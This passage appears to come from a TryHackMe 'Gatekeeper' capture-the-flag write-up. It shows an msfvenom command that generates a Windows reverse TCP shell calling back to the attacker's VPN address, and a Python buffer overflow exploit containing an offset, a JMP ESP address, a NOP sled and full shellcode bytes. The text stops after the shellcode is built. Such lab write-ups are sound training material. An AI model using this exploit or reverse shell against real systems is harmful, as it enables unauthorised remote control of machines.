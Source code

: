 **We have a shell on our debugging virtual machine!**

- Get a shell on the target machine:

**Change the `LHOST` to `tun0` (VPN IP) in shellcode:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
```

**Change the `ip` variable to the target IP**
```py
ip = '10.10.192.183' # The target IP
```

**[Full exploit script](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/exploit.py):**
```py
#!/usr/bin/env python3

import socket

ip = '10.10.192.183' # The target IP
port = 31337 # The gatekeeper.exe listening port

# Bad characters = \x00, \x0a
# JMP ESP = 080414C3
offset = 146
payload = b'A' * offset + b'\xC3\x14\x04\x08'
nop = b'\x90' * 32

# msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
shellcode =  b""
shellcode += b"\xda\xd9\xd9\x74\x24\xf4\x5f\xb8\x8c\xa4\x6e"
shellcode += b"\x15\x31\xc9\xb1\x52\x31\x47\x17\x83\xef\xfc"
shellcode += b"\x03\xcb\xb7\x8c\xe0\x2f\x5f\xd2\x0b\xcf\xa0"
shellcode += b"\xb3\x82\x2a\x91\xf3\xf1\x3f\x82\xc3\x72\x6d"
shellcode += b"\x2f\xaf\xd7\x85\xa4\xdd\xff\xaa\x0d\x6b\x26"
shellcode += b"\x85\x8e\xc0\x1a\x84\x0c\x1b\x4f\x66\x2c\xd4"
shellcode += b"\x82\x67\x69\x09\x6e\x35\x22\x45\xdd\xa9\x47"
shellcode += b"\x13\xde\x42\x1b\xb5\x66\xb7\xec\xb4\x47\x66"
shellcode += b"\x66\xef\x47\x89\xab\x9b\xc1\x91\xa8\xa6\x98"
shellcode += b"\x2a\x1a\x5c\x1b\xfa\x52\x9d\xb0\xc3\x5a\x6c"
shellcode += b"\xc8\x04\x5c\x8f\xbf\x7c\x9e\x32\xb8\xbb\xdc"
shellcode += b"\xe8\x4d\x5f\x46\x7a\xf5\xbb\x76\xaf\x60\x48"
shellcode += b"\x74\x04\xe6\x16\x99\x9b\x2b\x2d\xa5\x10\xca"
shellcode += b"\xe1\x2f\x62\xe9\x25\x6b\x30\x90\x7c\xd1\x97"
shellcode += b"\xad\x9e\xba\x48\x08\xd5\x57\x9c\x21\xb4\x3f"
shellcode += b"\x51\x08\x46\xc0\xfd\x1b\x35\xf2\xa2\xb7\xd1"
shellcode += b"\xbe\x2b\x1e\x26\xc0\x01\xe6\xb8\x3f\xaa\x17"
shellcode += b"\x91\xfb\xfe\x47\x89\x2a\x7f\x0c\x49\xd2\xaa"
shellcode += b"\x83\x19\x7c\x05\x64\xc9\x3c\xf5\x0c\x03\xb3"
shellcode += b"\x2a\x2c\x2c\x19\x43\xc7\xd7\xca\x66\x10\xcc"
shellcode += b"\xf3\x1f\x22\xf2\x02\x5b\xab\x14\x6e\x8b\xfa"
shellcode += b"\x8f\x07\x32\xa7\x5b\xb9\xbb\x7d\x26\xf9\x30"
shellcode += b"\x72\xd7\xb4\xb0\xff\xcb\x21\x31\x4a\xb1\xe4"
shellcode += b"\x4e\x60\xdd\x6b\xdc\xef\x1d\xe5\xfd\xa7\x4a"
shellcode += b"\xa2\x30\xbe\x1e\x5e\x6a\x68\x3c\xa3\xea\x53"
shellcode += b"\x84\x78\xcf\x5a\x05\x0c\x6b\x79\x15\xc8\x74"
shellcode += b"\xc5\x41\x84\x22\x93\x3f\x62\x9d\x55\xe9\x3c"
shellcode += b"\x72\x3c\x7d\xb8\xb8\xff\xfb\xc5\x94\x89\xe3"
shellcode += b"\x74\x41\xcc\x1c\xb8\x05\xd8\x65\xa4\xb5\x27"
shellcode += b"\xbc\x6c\xd5\xc5\x14\x99\x7e\x50\xfd\x20\xe3"
shellcode += b"\x63\x28\x66\x1a\xe0\xd8\x17\xd9\xf8\xa9\x12"
```